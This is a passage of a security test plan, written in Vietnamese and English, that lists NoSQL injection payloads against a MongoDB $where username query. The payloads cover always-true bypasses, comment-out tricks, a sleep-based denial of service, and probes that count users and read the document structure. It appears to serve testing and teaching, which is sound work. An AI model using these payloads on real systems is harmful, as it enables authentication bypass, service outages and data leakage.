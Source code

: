 **Expected Result:**
- ✅ Message: "Username đã tồn tại" (luôn đúng)

**Query Execution:**
```javascript
$where: "this.username == '' || '1'=='1'"
// Điều kiện luôn TRUE
```

---

### Test 3.2: Comment Out Technique

**Payload:** `'; return true; //`

**Query becomes:**
```javascript
$where: "this.username == ''; return true; //'"
// Phần sau // bị comment
```

**Expected Result:**
- ✅ Luôn trả về true

---

### Test 3.3: Sleep Attack (DoS)

**⚠️ WARNING:** Server sẽ bị treo!

**Payload:** `'; sleep(5000); return true; //`

**Expected Result:**
- ⚠️ Server không response trong 5 giây
- ⚠️ Potential DoS attack

**Use Case:**
- Test timeout handling
- DoS vulnerability

---

### Test 3.4: Try to Access Other Collections

**Payload:** `'; var x = db.users.find().toArray(); return x.length > 0; //`

**Expected Result:**
- Depends on MongoDB configuration
- Might leak data count

---

### Test 3.5: Information Gathering

**Payload:** `'; return Object.keys(this); //`

**Expected Result:**
- Potentially reveals document structure

---